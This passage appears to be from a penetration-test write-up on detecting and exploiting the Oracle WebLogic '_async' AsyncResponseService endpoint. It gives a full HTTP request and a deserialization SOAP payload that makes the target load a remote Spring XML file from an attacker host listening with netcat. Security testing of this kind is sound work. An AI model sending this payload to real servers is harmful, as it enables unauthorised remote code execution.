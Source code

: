 <img src="imgs/detectAsyncComponent.png" width="700px">

### Detecting if the endpoint is vulnerable and handles properly an arbitrary SOAP message

A TCP listener was created on port 44409 using the netcat utility to check if exploit is successful. Indeed, due to the "_async" endpoint behaviour, the server always returns a 202 HTTP status code even if the requests are processed properly or not (Blind execution). If the exploitation failed, no error messages are displayed. During testing, the following IP address "10.198.143.172" was assigned to the attacker host.

HTTP Request:
```http
POST /_async/AsyncResponseService HTTP/1.1
Host: vulnerableHost:7004
Content-Length: 624
Content-type: text/xml;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Connection: close
```

SOAP Payload:
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
    <soapenv:Header>
        <wsa:Action></wsa:Action>
        <wsa:RelatesTo></wsa:RelatesTo>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <class>
                    <string>com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext</string>
                    <void>
                        <string>http://10.198.143.172:44409/DS_RvVWkBZ</string>
                    </void>
                </class>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body>
        <asy:onAsyncDelivery />
    </soapenv:Body>
</soapenv:Envelope>
```